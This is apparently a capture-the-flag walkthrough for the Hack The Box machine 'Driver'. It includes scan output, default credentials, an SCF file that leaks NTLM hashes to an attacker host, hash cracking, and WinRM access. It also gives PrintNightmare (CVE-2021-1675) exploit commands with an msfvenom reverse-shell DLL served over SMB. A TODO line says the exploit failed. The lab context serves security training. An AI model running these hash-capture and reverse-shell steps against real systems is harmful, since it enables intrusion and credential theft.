

Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: 
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::

+ john --format=nt hash.txt
  + hashcat -m 5600 ntlmhashes.txt /usr/share/wordlists/rockyou.txt (seclist:: milw0rmdictionary.txt >> rockyou.txt )
    + creds: tony:liltony

+ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

+ msfconsole> use auxiliary/scanner/winrm/winrm_cmd see [winRM_cmd](Screenshots/driver_winrm_cmd.png))
  + set cmd pwd :: C:\Users\tony\Documents
  + set cmd "cd ..\Desktop\ ; more user.txt" 
user:: 95d6e576b403ac91befbc9c0ab70463d

##**CVE-2021-1675**##
create payload:: 
+ `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=53 -f dll > revshell.dll #move to /opt/tranfers`
stage smbserver:: see 
+ `python3 /opt/impacket/examples/smbserver.py kali . # user kali @ current director (/opt/transfers)`
setup listener::
+ `nc -lvnp 53`
Run exploit:: see 
+ `python3 ./CVE-2021-1675.py driver.htb/tony:liltony@10.10.11.106 '\\10.10.16.13\kali\revshell.dll'`


more c:\Users\Administrator\Desktop\root.txt
root:: 1026cd01def52e83a800703612fe0ef2


+TODO: impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x3a - ERROR_BAD_NET_RESP - The specified server cannot perform the requested operation.
Can't run printernightmare CVE-2021-1675
CVE-2021-1675 not working - see 
    + https://github.com/cube0x0/CVE-2021-1675


[CVE](https://github.com/cube0x0/CVE-2021-1675)
[msrpc](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)